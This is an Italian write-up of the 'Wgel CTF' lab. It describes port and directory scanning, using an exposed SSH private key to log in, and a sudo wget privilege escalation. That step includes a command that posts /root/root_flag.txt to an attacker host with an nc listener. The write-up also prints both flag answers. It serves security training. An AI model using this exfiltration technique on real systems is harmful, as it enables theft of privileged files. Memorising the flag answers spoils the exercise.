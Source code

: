 # Wgel CTF

_Difficoltà: Easy_

_________

# Task 1 - Wgel CTF

- sudo nmap -sS -sVC -Pn -p0- -A --open -T5 -vvv wgel.thm

![Screenshot_2023-10-09_22-07-59](https://github.com/Manganaccio/Manganaccio/assets/137283468/2a524a00-10df-40f8-8846-0667bc402fe5)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa

![Screenshot_2023-10-09_22-11-06](https://github.com/Manganaccio/Manganaccio/assets/137283468/79b5a617-4280-4f9a-ba32-5b51d673ad14)

- viene fornito un possibile username
- facciamo uno scan delle directories con gobuster

- gobuster dir -u http://wgel.thm -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200

![3](https://github.com/Manganaccio/Manganaccio/assets/137283468/b03ed948-1796-4a67-b98a-8e7f2207701b)

- utilizziamo nuovamente gobuster per trovare ulteriori directories

- gobuster dir -u http://wgel.thm/sitemap -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200 -x php,html

![4](https://github.com/Manganaccio/Manganaccio/assets/137283468/fa5a9ca9-ecde-44db-9eba-52ed7e9d9972)

- si noti tra le nuove directories ".ssh", accedendo troviamo un file denominato _id_rsa_ utile per fare l'accesso tramite SSH
- salviamo il contenuto in un file di testo e settiamo i permessi tramite il comando _chmod 600 id_rsa_
- facciamo l'accesso al servizio SSH con il nome utente trovato in precedenza eseguendo il seguente comando
- ssh jessie@10.10.156.167 -i id_rsa

# User flag

- una volta eseguito l'accesso nella directory Documents troviamo la prima flag

      Answer: 057c67131c3d5e42dd5cd3075b198ff6

# Root flag

- digitando il comando _sudo -l_ non ci viene richiesta la password dell'utente e ci viene fornita un'informazione utile per eseguire privilege escalation

![5](https://github.com/Manganaccio/Manganaccio/assets/137283468/344cbadb-4511-416c-b5b5-10aeb47c1f2c)

- navighiamo ora su GTFOBins e alla pagina _wget_ all'indicazione _File upload_ ci vengono forniti i comandi da eseguire sul terminale
- apriamo quindi una connessione nc sulla macchina attaccante e contemporaneamente ottenuto su GTFOBins
- eseguire sulla macchina vittima il comando _sudo /usr/bin/wget --post-file=/root/root_flag.txt http://'NOSTRO-IP':'PORTA'_ e contemporaneamente apriamo una connessione nc sulla macchina attaccante

![6](https://github.com/Manganaccio/Manganaccio/assets/137283468/03b8e818-f657-47e4-ad0c-c26216f39a77)

![7](https://github.com/Manganaccio/Manganaccio/assets/137283468/0df03445-046f-41b1-9d90-98dbb5d1ac5c)


      Answer: b1b968b37519ad1daa6408188649263d
